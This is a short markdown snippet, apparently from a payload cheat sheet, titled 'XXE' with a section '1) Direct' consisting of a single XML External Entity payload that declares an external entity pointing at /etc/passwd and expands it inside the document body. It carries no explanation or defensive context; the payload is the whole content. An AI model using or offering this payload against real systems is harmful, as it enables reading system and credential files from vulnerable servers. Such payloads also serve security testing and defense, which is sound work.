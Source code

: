 # XXE

## 1) Direct

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [ 
  <!ENTITY xxe SYSTEM "/etc/passwd">
] >
<site>
    <vuln>Vuln &xxe;</vuln>
</site>
```
